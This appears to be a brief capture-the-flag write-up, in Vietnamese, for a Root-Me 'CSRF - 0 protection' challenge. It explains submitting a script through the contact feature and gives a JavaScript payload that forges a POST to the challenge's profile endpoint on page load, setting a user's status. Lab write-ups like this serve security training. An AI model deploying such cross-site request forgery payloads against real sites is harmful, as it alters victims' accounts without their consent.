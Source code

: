# CSRF - 0 protection

## Solution

Sử dụng chức năng `contact` để xử lý việc này. Nó không hỗ trợ jQuery vì origin page không bao gồm tệp jQuery, vì vậy phải sử dụng ajax.

```
windows.onload=function(){
var xmlhttp;
if (window.XMLHttpRequest)
  {// code for IE7+, Firefox, Chrome, Opera, Safari
  xmlhttp=new XMLHttpRequest();
  }
else
  {// code for IE6, IE5
  xmlhttp=new ActiveXObject("Microsoft.XMLHTTP");
  }
xmlhttp.open("POST","http://challenge01.root-me.org/web-client/ch22/?action=profile",true);
xmlhttp.send("username=repoog&status=on");
}
```
